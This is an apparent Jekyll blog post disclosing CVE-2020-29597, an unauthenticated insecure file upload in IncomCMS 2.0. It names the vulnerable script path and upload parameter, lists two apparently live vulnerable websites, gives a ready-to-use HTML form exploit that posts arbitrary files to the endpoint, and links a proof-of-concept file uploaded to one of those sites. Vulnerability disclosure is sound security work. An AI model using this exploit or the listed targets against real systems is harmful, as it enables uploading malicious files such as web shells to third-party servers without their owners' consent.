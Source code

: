 ```yaml
---
layout: post
title:  "CVE-2020-29597 - IncomCMS 2.0 insecure files upload"
description: IncomCMS 2.0 is vulnerable to insecure files upload
tags: exploits bugbounty
---
```

  Hi there!, I've discovered endpoint that accepts any file and upload it without any validation or even being authentication 

### Discovered by : Mohammed Fadhl Al-Barbari aka @m4dm0e

### CVE-ID : `CVE-2020-29597`

### Vulnerable endpoint/script : `site.com/incom/modules/uploader/showcase/script.php`
  
  
### Vulnerability type : `Insecure file upload`
  
  
### Tested on : `IncomCMS 2.0 old versions probably vulnerable too `
  
### Uploader parameter : `Filedata`  
  
### Live websites : 
```
http://mzgesheft.kz/incom/modules/uploader/showcase/script.php
http://mekom.kz/incom/modules/uploader/showcase/script.php
```

### HTML exploit : 

```html
<!DOCTYPE html>
<html>
<head>
  <title>Upload your files</title>
</head>
<body>
  <form enctype="multipart/form-data" action="http://www.example.com/incom/modules/uploader/showcase/script.php" method="POST">
    <p>Upload your file</p>
    <input type="file" name="Filedata"></input><br />
    <input type="submit" value="Upload"></input>
  </form>
</body>
</html>

```

###  POCs  : `http://mzgesheft.kz/upload/userfiles/image/cve.png`
  


	
	
Thanks for reading this.

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
